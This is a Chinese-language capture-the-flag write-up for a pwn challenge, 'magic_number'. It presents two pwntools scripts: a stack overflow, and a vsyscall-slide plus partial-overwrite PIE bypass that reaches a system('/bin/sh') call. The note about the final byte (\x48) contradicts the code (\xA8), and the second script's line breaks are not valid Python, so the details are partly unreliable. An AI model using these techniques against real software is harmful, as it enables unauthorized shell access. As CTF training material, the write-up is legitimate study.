 # magic_number

### 先看看题目 
首先file一下
![](./图片/1.png)
然后查看保护
![](./图片/2.png)
emm有PIE。。。应该是莫得动态调试了  

再打开IDA查一波  
![](./图片/3.png)
看了看main函数，woc这么简单 ~~我那时候把PIE忘了~~  
然后我就写了这个脚本
### 脚本1
```python
#!/usr/bin/python
#coding:utf-8

from pwn import *
context.log_level = 'debug'
io = process('./magic_number')

system_addr = 0x0AA8
payload = cyclic(0x38) + p64(system_addr)

io.sendlineafter("Your Input :",payload)
io.interactive()
```
脑子是个好东西 ~~可惜我没有~~  
### vsyscall利用简介
之后我在看了看保护才想起来有PIE，然后就想起了前几天刚学的vsyscall的滑动绕过  
由于这三个系统调用都是无参数传参，而且地址固定，我们可以用它来绕过PIE，可以把它们就看成是一个ret指令，我们就可以用它不停地“滑”到下一条栈地址。  
### 代码2
```python3
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level = 'debug'
io=process('./magic_number')
#gdb.attach(p)
payload = cyclic(0x38)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+b'\xA8'
io.sendafter("Your Input :",payload)
io.interactive()

```
#### 注:
1、0xFFFFFFFFFF600400 是 vsyscall 中的 time 函数的地址  
2、\x48 是main函数中执行 system("/bin/sh") 函数的地址的后两位